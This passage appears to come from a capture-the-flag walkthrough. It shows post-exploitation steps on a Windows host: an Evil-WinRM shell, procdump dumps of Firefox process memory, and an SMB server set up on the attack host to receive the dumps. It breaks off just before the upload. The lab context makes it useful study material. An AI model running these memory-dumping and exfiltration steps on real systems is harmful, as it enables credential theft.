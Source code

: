 If we list for the process we can see that **firefox** is running:

```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    464      17     2056       5376               372   0 csrss
    291      13     2308       5280               484   1 csrss
    362      15     3548      14776              4536   1 ctfmon
    250      14     3928      13424              3536   0 dllhost
    166       9     1856       9736       0.03   4064   1 dllhost
    618      32    29368      57672               976   1 dwm
   1499      58    23692      79832              4764   1 explorer
    401      36    49192     108544       2.92   4092   1 firefox
    347      20    10216      35624       0.06   4808   1 firefox
   1068      75   181648     258844       8.56   5444   1 firefox
    378      29    29424      65740       0.88   6216   1 firefox
    355      25    16416      38856       0.58   6632   1 firefox
     49       6     1796       4712               752   1 fontdrvhost
     49       6     1496       3920               760   0 fontdrvhost
      0       0       56          8                 0   0 Idle
    967      23     5792      14996               628   0 lsass
    223      13     2976      10328              3840   0 msdtc
      0      12      348      15720                88   0 Registry
```

List all the firefox process:

```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> get-process -name firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    401      36    49196     352524       2.92   4092   1 firefox
    347      20    10216     288588       0.06   4808   1 firefox
   1092      76   181876     544200       8.56   5444   1 firefox
    378      29    29552     313972       0.88   6216   1 firefox
    355      25    16416     297452       0.58   6632   1 firefox
```

Now get the dmp of the all the process:

```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump.exe -ma 4092 firefox-1.dmp
*Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump.exe -ma 4808 firefox-2.dmp
...
```

Start a smb server in the attack host:

```console
$ sudo smbserver.py share -smb2support /tmp/ -user test -password pass
```

And upload the file:
